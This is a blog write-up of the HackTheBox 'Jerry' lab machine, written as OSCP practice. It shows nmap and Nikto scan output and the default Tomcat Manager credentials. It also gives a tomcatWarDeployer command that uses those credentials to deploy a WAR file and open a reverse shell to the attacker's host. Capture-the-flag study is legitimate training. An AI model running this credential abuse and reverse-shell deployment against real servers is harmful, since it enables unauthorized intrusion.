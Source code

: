 ```yaml
---
layout: post
title: HackTheBox Jerry Writeup - OSCP Practice 
categories: [security, hackthebox, oscp-writeups, thursday-snack]
tags: [security, hackthebox, oscp]
description: A comprehensive writeup on HackTheBox Jerry VM which helps learn and practice for OSCP.
comments: true
---
```



### Quick Overview

[Jerry](https://app.hackthebox.com/machines/144) is one of the Windows Box from [TJNull OSCP Practice list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). It's one of those quite easy machine where you get initial foothold & privilege escalation in a single hop.

![Jerry VM - HacktheBox Logo](/assets/media/htb-jerry-logo.jpg)

### Enumeration

#### NMapAutomator

Started with enumerating the target with [`NMapAutomator`](https://github.com/21y4d/nmapAutomator) script since it helps in automating all possible ports with vulnerability scripts from `nmap`. Additionally, `NmapAutomator` can help in recon process using `ffuf`, `nikto`, `DNSRecon`, `SMB` enumeration.

> `sudo nmapAutomator.sh -H $IP --type All`

```bash
Running all scans on jerry.htb with IP 3(NXDOMAIN)
No ping detected.. Will not use ping scans!
Host is likely running Unknown OS!
---------------------Starting Port Scan-----------------------
PORT     STATE SERVICE
8080/tcp open  http-proxy
---------------------Starting Script Scan-----------------------
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1

---------------------Starting Full Scan------------------------
PORT     STATE SERVICE
8080/tcp open  http-proxy
No new ports
```

#### Nikto Scan 

```
---------------------Running Recon Commands--------------------
Starting nikto scan                                                                                                    
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.136.9
+ Target Hostname:    jerry.htb
+ Target Port:        8080
+ Start Time:         2023-02-26 17:43:42 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7890 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2023-02-26 17:46:58 (GMT-5) (196 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
Finished nikto scan
```

#### Suspect 1

If you're familiar with Apache Tomcat and Java (JSP) based development, You'll certainly create a reverse shell out of this `Tomcat Manager` exposed in port `8080` with zero assistance from tooling. After checking the Nikto results, looks like `Tomcat Manager` has been exposed and it has few passwords in `<TOMCAT_HOME>/conf/tomcat-users.xml`. While trying to perform login, the error page actually exposes the password.

![Hackthebox - Jerry VM - Tomcat Manager Password exposure](/assets/media/htb-jerry-enumeration-2.png)

After consuming the password of `tomcat` user as `s3cret`, We're now able to manage, upload, destroy `JSP` based application via Tomcat Manager. This clearly shows a way to perform `Code execution` via uploading JSP War File. 

![Hackthebox - Jerry VM - Tomcat Manager](/assets/media/htb-jerry-tomcat-manager.png)

### Local Shell

Upon scrolling down in the same `Tomcat Manager` page, you may find an option to upload and deploy `war` file. This is where [`TomcatWarDeployer`](https://github.com/mgeeky/tomcatWarDeployer) comes useful. The only caveat was latest python 3.10 wasn't working with the script. I had to do bunch of changes as like `decode('utf-8')` & `encode()` between `str` and `byte` datastructure. This TomcatWarDeployer authenticate with `tomcat` user credentials and upload `jsp_app` and spawns a `reverse shell` in the same terminal.

`> python tomcatWarDeployer.py -U tomcat -P s3cret -H LHOST -p 443 jerry.htb:8080`

![Hackthebox - Jerry VM - Local Shell](/assets/media/htb-jerry-local-shell.png)

### Privilege Escalation

If you take a closer look at the `whoami` result `nt authority\system` which is already system admin level permission in Windows. You can grab your flags from Administrator\Desktop\flags directory. You can actually find couple of flags in `2 for the price of 1.txt` file.

```powershell
C:\apache-tomcat-7.0.88> cd flags                                                                                     

C:\Users\Administrator\Desktop\flags>

C:\apache-tomcat-7.0.88> dir                                                                                          
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,015,680 bytes free
```

![HackTheBox - Shivasurya.me](/assets/media/htb-sherlock.webp)

### Closing Note:

I hope this post is helpful for folks preparing for Offensive Security Certified Professional certification exam. For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
